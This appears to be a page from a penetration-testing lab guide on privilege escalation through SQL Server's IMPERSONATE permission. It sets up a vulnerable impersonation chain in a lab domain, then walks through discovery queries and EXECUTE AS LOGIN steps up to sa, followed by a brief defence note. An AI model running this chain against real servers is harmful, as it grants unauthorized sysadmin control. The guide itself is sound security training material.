 ```yaml
---
description: >-
  SQL Server has a special permission, named impersonate, this enables one user
  to operate with the permissions of another user as well as their own
  permissions.
---
```


# Impersonation

## Configuring

### Prerequisite

{% content-ref url="../initial-access/normal-domain-user-access.md" %}
[normal-domain-user-access.md](../initial-access/normal-domain-user-access.md)
{% endcontent-ref %}

### Configuring

1. Login to `WEB01` as the `Administrator` user with password `Welcome01!`.
2. Open "Microsoft SQL Server Management Studio"

![](<../../../../.gitbook/assets/image (34) (1) (1) (1).png>)

3\. Login with the `Administrator` user using Windows Authentication.

![](<../../../../.gitbook/assets/image (7) (1) (1) (1).png>)

4\. Click “New Query” button and use the SQL query below to create two new users:

![](<../../../../.gitbook/assets/image (29) (1) (1).png>)

```
CREATE LOGIN Developer WITH PASSWORD = 'MyPassword!';
CREATE LOGIN Developer_test WITH PASSWORD = 'MyPassword!';
```

![](<../../../../.gitbook/assets/image (50) (1).png>)

5\. Run the following Query to allow impersonation:

```
GRANT IMPERSONATE ON LOGIN::Developer to [AMSTERDAM\Richard];
GRANT IMPERSONATE ON LOGIN::Developer_test to [Developer];
GRANT IMPERSONATE ON LOGIN::sa to [Developer_test];
```

![](<../../../../.gitbook/assets/image (36) (1).png>)

## Attacking

### How it works

SQL Server has a special permission, named impersonate, this enables one user to operate with the permissions of another user as well as their own permissions. For example: user A can impersonate user B which can impersonate user C which can impersonate sa. This can be used to escalate privileges.

### Tools

* [HeidiSQL](https://www.heidisql.com)

### Executing the attack

1. Login to `WS01` as Richard with the password `Sample123`.
2. Download and start heidiSQL.
3. Click on "New" on the left bottom and configure the following settings:

* Network Type: `Microsoft SQL Server (TCP/IP)`
* Library: `SQLOLEDB`
* Hostname / IP: `WEB01.amsterdam.bank.local`
* Select: "Use Windows Authentication"
* Port: `1433`

![](<../../../../.gitbook/assets/image (33) (1) (1).png>)

4\. Click "OK" on the security Issue warning.

5\. Click on the "Query" tab and enter the following Query to check which users can be impersonated by the current user.

```
-- Find users that can be impersonated
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
```

We can impersonate the `Developer` user.

![](<../../../../.gitbook/assets/image (62) (1) (1).png>)

6\. Impersonate the `Developer` user with the following query.

```
EXECUTE AS LOGIN = 'developer'
```

![](<../../../../.gitbook/assets/image (42) (1) (1).png>)

{% hint style="info" %}
Make sure the Master database is selected since the developer user doesn't have access to the production database.
{% endhint %}

7\. Execute the who can be impersonated query again.

![](<../../../../.gitbook/assets/image (52) (1) (1) (1) (1).png>)

8\. Impersonate the user `sa`.

```
EXECUTE AS LOGIN = 'sa'
```

![](<../../../../.gitbook/assets/image (42) (1).png>)

Hmm that doesn't work, lets impersonate `Developer_test`

8\. Impersonate `Developer_test`.

```
EXECUTE AS LOGIN = 'Developer_test'
```

9\. Execute the who can be impersonated query again:

![](<../../../../.gitbook/assets/image (7) (1) (1).png>)

10\. Impersonate `sa`.

```
EXECUTE AS LOGIN = 'sa'
```

Now no error:

![](<../../../../.gitbook/assets/image (43).png>)

We successfully impersonated `Developer` --> `Developer_test` --> `sa`.

Check the executing commands page under SQL Server Attacks to read how to execute cmd commands:

{% content-ref url="../executing-commands.md" %}
[executing-commands.md](../executing-commands.md)
{% endcontent-ref %}

## Defending

### Recommendations

* Use signed stored procedures that have been assigned access to external objects. This seems like the most secure option with the least amount of management overhead. Similar to the EXECUTE WITH option, this can result in escalation paths if the store procedure is vulnerable to SQL injection, or is simply written to allow users to take arbitrary actions. More information at [http://msdn.microsoft.com/en-us/library/bb283630.aspx](http://msdn.microsoft.com/en-us/library/bb283630.aspx).

### Detection



## References

{% embed url="https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-2-user-impersonation" %}
